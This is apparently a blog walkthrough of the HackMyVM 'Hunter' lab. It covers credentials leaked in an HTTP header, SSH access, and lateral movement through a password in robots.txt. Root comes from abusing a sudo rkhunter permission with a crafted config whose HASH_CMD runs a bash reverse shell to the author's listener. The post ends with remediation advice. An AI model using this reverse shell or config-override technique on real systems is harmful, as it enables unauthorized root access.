+++
date = '2026-08-19T17:35:00+03:00'
draft = false
title = 'Hunter — HackMyVM'
tags = ["HackMyVM", "Linux", "Privilege Escalation", "SSH", "HTTP", "JWT", "rkhunter", "Lateral Movement", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

Hunter is a HackMyVM challenge that demonstrates the risks of leaked credentials in HTTP response headers and misconfigured sudo permissions. The attack chain began with enumerating an HTTP service on port 8080, discovering a `/admin` endpoint protected by JWT authentication, and extracting plaintext credentials from a custom `X-Secret-Creds` response header. After gaining initial access via SSH, I moved laterally to another user by finding a password in the web directory, then exploited an `rkhunter` sudo misconfiguration to escalate to root.

## Step 1: Reconnaissance and Enumeration

The assessment started with an nmap scan against the target (192.168.56.108) to identify open services.

```
nmap -sV -sC -p- 192.168.56.108
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 10.0 (protocol 2.0)
8080/tcp open  http    syn-ack ttl 64 Golang net/http server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Unknown favicon MD5: D58DB6BFC5A697F0567773A18D530102
| http-robots.txt: 1 disallowed entry
|_/admin
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
```

**Key Findings:**

- SSH (22) is running OpenSSH 10.0 with password authentication enabled.
- HTTP (8080) serves a Go application on a Golang net/http server.
- `robots.txt` disallows `/admin`, indicating an interesting endpoint.
- The web server responds to multiple HTTP methods including GET, HEAD, POST, and OPTIONS.

### SSH

Checking the SSH port confirmed that password authentication is allowed.



### HTTP — robots.txt

From the nmap scan there is one disallowed entry inside `robots.txt`.



### HTTP — /admin Endpoint

Visiting the `/admin` endpoint returned an error message indicating a JWT is required for access.



I decided to inspect the HTTP response headers using `curl` to gather more information.

```
curl -sI 192.168.56.108:8080/admin
```



Switching the request method to POST revealed an interesting header — `X-Secret-Creds` — which contained a potential username and password in plaintext.

```
curl -X POST 192.168.56.108:8080/admin -I
```



## Step 2: Initial Access

Using the credentials obtained from the `X-Secret-Creds` header, I logged in to the target via SSH, gaining initial access as `hunterman`.

```
ssh hunterman@192.168.56.108
```



### Enumeration as hunterman

Running `sudo -l` showed that `hunterman` cannot execute any commands as root.

```
sudo -l
```

Output: `Sorry, user hunterman may not run sudo on hunter.`



With no sudo privileges, I needed to look for another vector to escalate.

## Step 3: Lateral Movement

While enumerating the system, I noticed another user called `huntergirl`.


I checked the web directory for any credentials and, while inspecting the files, found the password for `huntergirl` inside the `robots.txt` file in the web root.



The `/admin` folder didn't contain any useful information.



Using the discovered credentials, I switched to `huntergirl` and verified the user context.

```
id
```

```
uid=1001(huntergirl) gid=1001(huntergirl) groups=1001(huntergirl)
```



## Step 4: Privilege Escalation

Checking `huntergirl`'s sudo permissions revealed that the user can run `/usr/local/bin/rkhunter` as root with no password required, and with the ability to specify a custom configuration file.

```
sudo -l
```


The `rkhunter` binary reads configuration directives from the file pointed to by `--configfile`. One of those directives, `HASH_CMD`, specifies an executable that `rkhunter` invokes during its property update check. I can abuse this by creating a malicious configuration file that points `HASH_CMD` to a reverse shell script.

First, I read the root flag using `rkhunter` with the real config file to confirm I could reach root-owned files.

```
sudo rkhunter -C --configfile /root/root.txt
```



### Crafting the Exploit

I created a reverse shell script at `/tmp/shell.sh` that connects back to my listener.

```
#!/bin/bash
bash -i >& /dev/tcp/<my-ip>/4444 0>&1
```

```
chmod +x /tmp/shell.sh
```

Next, I crafted a malicious configuration file (`evil.conf`) that overrides the critical directives — pointing `HASH_CMD` to my reverse shell script while keeping the other paths valid so `rkhunter` doesn't error out.

```
INSTALLDIR=/usr/local
TMPDIR=/var/lib/rkhunter/tmp
DBDIR=/var/lib/rkhunter/db
SCRIPTDIR=/usr/local/lib/rkhunter/scripts
LOGFILE=/var/log/rkhunter.log
HASH_CMD=/tmp/shell.sh
```

With a listener waiting on port 4444, I triggered the exploit by running `rkhunter` with the malicious config and `--propupd`, which forces `rkhunter` to verify file hashes — executing the `HASH_CMD` directive as root.

```
sudo /usr/local/bin/rkhunter --configfile /tmp/evil.conf --propupd
```

Catching the shell with Penelope gave me root access.



## Conclusion

This lab demonstrated a full compromise through a chain of information disclosure and sudo misconfiguration:

1. Enumeration of the HTTP service on port 8080 revealed a `/admin` endpoint protected by JWT.
2. A POST request to `/admin` leaked plaintext credentials via the `X-Secret-Creds` response header.
3. Those credentials granted SSH access as `hunterman`.
4. Lateral movement to `huntergirl` was achieved by finding her password in the web directory's `robots.txt`.
5. `huntergirl`'s sudo permission to run `rkhunter --configfile` as root was abused by supplying a malicious config that pointed `HASH_CMD` to a reverse shell script, achieving root.

To secure the environment, the following remediations are recommended:

- **Remove sensitive credentials from HTTP response headers** — custom headers like `X-Secret-Creds` should never contain plaintext authentication material.
- **Avoid storing passwords in web-accessible files** such as `robots.txt`.
- **Restrict sudo permissions** — avoid allowing users to run binaries like `rkhunter` with arbitrary `--configfile` arguments, as this permits configuration override attacks.
- **Audit sudoers entries** for any binary that accepts user-controlled file paths as arguments.
